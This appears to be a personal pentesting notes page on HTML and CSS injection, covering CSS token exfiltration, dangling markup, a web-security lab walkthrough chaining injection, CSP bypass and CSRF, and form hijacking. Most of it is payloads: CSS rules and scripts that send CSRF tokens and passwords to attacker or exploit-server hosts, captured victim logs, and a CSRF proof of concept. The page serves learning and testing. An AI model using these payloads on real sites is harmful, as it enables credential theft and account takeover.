 HTML and CSS injections are a variation of [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) that verifies when you can inject HTML code into the page, but something is preventing you from injecting JavaScript tags or snippets of code.

In these cases, classic XSS exploitation is not feasible, but there are other techniques applicable to these scenarios that still make page exploitation possible.

## CSS injection and exfiltration

You can use the `@import` rule that works also for **blind CSS exfiltration**:
```html
"><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

The main technique to exfiltrate information via CSS Injection is to try to match a text with CSS and in case that text exist load some external resource:

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```

>[!warning]
>This technique won't work if the filed is **hidden**, because the background won't be loaded.
>Fix:
>```css
>input[name=csrf][value^=csrF] ~ * {
>    background-image: url(https://attacker.com/exfil/csrF);
>}
>```

A CSS "keylogger" [^video] can be constructed in the same way [^css-k] :

[^css-k]: https://github.com/maxchehab/CSS-Keylogging
[^video]: [The Curse of Cross-Origin Stylesheets - Web Security Research](https://youtu.be/bMPAXsgWNAc?si=fsmfIXeraW_2bDOM&t=317)
```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

With CSS injection however, it is also possible to perform [UI redressing](Clickjacking.md#UI%20redressing%20and%20XSS) in order to re-define any CSS style included in the original page in order to hijack the original behavior.

More attacks can be found at
- [CSS Injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection), HackTricks 
- [Blind CSS Exfiltration: exfiltrate unknown web pages](https://portswigger.net/research/blind-css-exfiltration), PortSwigger

## Dangling markup injection

>[!question] What is dangling markup injection?
>Dangling markup injection is a technique that can be used to capture data cross-domain in situations where a full cross-site scripting exploit is not possible, due to input filters or other defenses. Any attribute that makes an external request can be used for dangling markup.

Often used to capture sensitive information visible to users, like:
- CSRF token
- API keys
- Secrets
- Email messages

>[!example]
>Application code injecting user-supplied data inside the `value` field: `<input type="text" name="input" value="CONTROLLABLE DATA HERE`
>In case there is WAF or something preventing XSS, attacker can exfiltrate data using a payload like `"><img src='//attacker-website.com?`
>
>This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the `src` attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.
>

### Password reset poisoning via dangling markup

![Password reset poisoning via dangling markup](Password%20Reset%20Poisoning.md#Password%20reset%20poisoning%20via%20dangling%20markup)

### XSS + Dangling Markup + CSP bypass + CSRF

[Content Security Policy (CSP)](Content%20Security%20Policy%20(CSP).md) used by the app (very strict):
```http
Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
```

Discovered a reflection point using pre-filled data:
```html
https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account?email=%22%3EThis%20is%20injected%20%3C!--

<label>Email</label>
<input required type="email" name="email" value="">This is injected <!--">
<input required type="hidden" name="csrf" value="agoOJ9L0emaXgmnfSaF1wRyr5JX2Mvld">
<button class='button' type='submit'> Update email </button>
</form>
</div>
</div>
</section>
<div class="footer-wrapper">
</div>
</div>
</body>
</html>-->
```

![](../../zzz_res/attachments/xss-prefilled.png)

XSS can't be obtained but we can leak pages data, including a CSRF token, if we trick the user clicking the link:
```html
<script>
if(window.name) {
	// when imported inside the page using the XSS, it leaks the data contained inside the <base target=""> tag
	new Image().src='//exploit-0a38001803df086284e31d1601610050.exploit-server.net?'+encodeURIComponent(window.name);
	} else {
	// injects the XSS in the email filed
	location = 'https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a38001803df086284e31d1601610050.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>

<!-- resultin base tag after the XSS -->
<base target='">
<input required type="hidden" name="csrf" value="agoOJ9L0emaXgmnfSaF1wRyr5JX2Mvld">
<button class='button' type='submit'>
```
Logs:
```
...
10.0.3.8        2023-07-01 11:11:40 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
10.0.3.8        2023-07-01 11:11:40 +0000 "GET /?%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20required%20type%3D%22hidden%22%20name%3D%22csrf%22%20value%3D%22Q2O4K6Q9aPLnhkCn6CFbXghsBbdSfhak%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20class%3D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
...
```

Finally, we can conduct out [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md) and change victim's email:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="Q2O4K6Q9aPLnhkCn6CFbXghsBbdSfhak" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Form Hijacking (Capture passwords exploiting auto-fill)

The idea is you have a HTML injection vulnerability that is protected by [Content Security Policy (CSP)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Content%20Security%20Policy%20(CSP).md). Then you use the HTML injection to inject your own form action by using the `formaction` attribute or injecting your own form to send data to the attackers server. [^form-hijacking]

[^form-hijacking]: [Gareth Heyes - Using Form Hijacking to Bypass CSP](../../Readwise/Articles/Gareth%20Heyes%20-%20Using%20Form%20Hijacking%20to%20Bypass%20CSP.md)

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://uusx5ulcqjyd4ypy5x9hhjhoffl89zxo.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Related article: [Stealing passwords from infosec Mastodon - without bypassing CSP](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp)

## XSS using Encoding Differentials injecting meta tag 

Related article: [Encoding Differentials: Why Charset Matters](../../Readwise/Articles/sonarsource.com%20-%20Encoding%20Differentials%20Why%20Charset%20Matters.md)